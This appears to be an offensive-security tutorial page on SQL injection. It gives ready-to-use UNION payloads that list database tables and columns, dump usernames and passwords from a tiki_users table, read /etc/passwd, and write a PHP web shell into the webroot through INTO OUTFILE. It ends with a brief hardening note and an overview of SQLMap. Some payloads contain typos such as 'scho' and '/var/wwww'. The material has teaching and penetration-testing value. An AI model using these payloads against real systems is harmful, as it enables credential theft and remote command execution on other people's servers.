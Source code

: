 We can also use UNION to return data from other tables and databases.  In order to do so, we need to see / read what other tables are available. This information is contained in the information_schema.tables:

```sql
SELECT * FROM Users WHERE id = '0' or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables #

# List all columns from tables - returns table_name:column_name - 
or 1=1 UNION SELECT 1,concat(table_name,char(58),column_name) from information_schema.columns #
```

Armed with this information we can see that the `tiki_users` table has a column for `user` and a column for `password`.
```sql
0' or 1=1 UNION SELECT user,password from tiki_users #
```

### SQLi: Interacting with the File system

Under specific circumstances, we can interact with the underlying filesystem. 
We can use LOAD_FILE and OUTFILE to write to the filesystem, such as a web shell. 

```sql
SELECT * LOAD_FILE('/home/username/mytextfile.txt');

# Using union to read a passwd file
0' UNION SELECT 1, load_file('/etc/passwd') #
```

Using `OUTFILE` we can write web shells into a webroot directory and execute with a web browser:
```sql
SELECT * [fields] INTO OUTFILE '/tmp/output.txt'
# Write a php payload into /var/wwww
0' UNION SELECT '<?php phpinfo();?>', null INTO OUTFILE '/var/www/info.php' #'
# After we proof that its possible, lets get a web shell
0' UNION SELECT '<?php scho shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' # 
# If we browse to /cmd.php?cmd=id then we can see the web shell was uploaded
```

### Securing against Filesystem Modification

The user running MySQLd should have very limited to no file directory access. 
Additionally, there should be FILE privileges, and kernel security modules like AppArmor and/or SELinux

## SQLMap

SQLMap allows us to automate the testing and exploitation of SQL Injection vulnerabilities. SQLMap has the ability to fingerprint the back-end database and test for various SQL injection flaws such as boolean-, time- and error based blind SQL injection. When a vulnerability is detected in a parameter, SQLMap can then exploit it to fetch database contents, access the filesystem, and possiby spawn an OS shell. Support MySQL, PostgrSQL, Microsoft SQL Server, Oracle, and others. 

